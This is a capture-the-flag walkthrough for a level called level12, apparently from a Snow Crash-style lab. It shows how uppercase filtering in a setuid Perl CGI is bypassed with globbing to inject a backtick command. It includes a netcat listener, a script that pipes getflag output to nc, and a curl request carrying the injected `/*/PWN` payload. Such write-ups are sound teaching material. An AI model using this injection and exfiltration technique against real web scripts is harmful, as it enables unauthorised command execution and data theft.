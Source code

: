 ## level12

1. Check files in current working directory (home dir)
    - `-rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl*`

Pretty much the same issue as before, but this time we got a little bit outplayed.

1. Our input is transformed to uppercase
2. Our input then gets all its spaces removed

So, it's getting a bit more complex.

### Opening a netcat server

Using tmux split panes :

```bash
nc -kl 12345
```

### Exploiting

Well actually I spent a bit of time to understand what was going on, but it's pretty simple.

Basically, the perl script is using `egrep`, and this is completely unrelated. In fact, the real problem are the backticks in the perl script, they are used to execute a command and get its output.

Since our input (transformed indeed, but still our input) is passed between backticks, we can execute a command.

But no interesting commands are written in uppercase, we can't just use the `getflag` command because it gets turned into `GETFLAG` and it doesn't exist.

So we can use a shell script and store it into `/tmp/` but here again it would get turned into `/TMP/` and it wouldn't work.

So let me introduce you to globbing, which is a way of matching files using wildcards, more specifically the `*` wildcard.

#### Creating the script

```bash
#!/bin/bash
getflag | nc 127.0.0.1 12345
```

Store this into `/tmp/PWN` and make it executable using the `chmod +x /tmp/PWN` command.

#### Getting the script to run

Now we need our perl CGI to execute our command, `/tmp/` would get turned into `/TMP/` so, we'll use `/*/` which will try to find a `PWN` file in every directories in the root directory.

So we just need to run an HTTP GET request like this : 

```bash
curl 'http://127.0.0.1:4646/?x="`/*/PWN`"'
```

and we get the flag. (that's indeed a lot of quotes & ticks)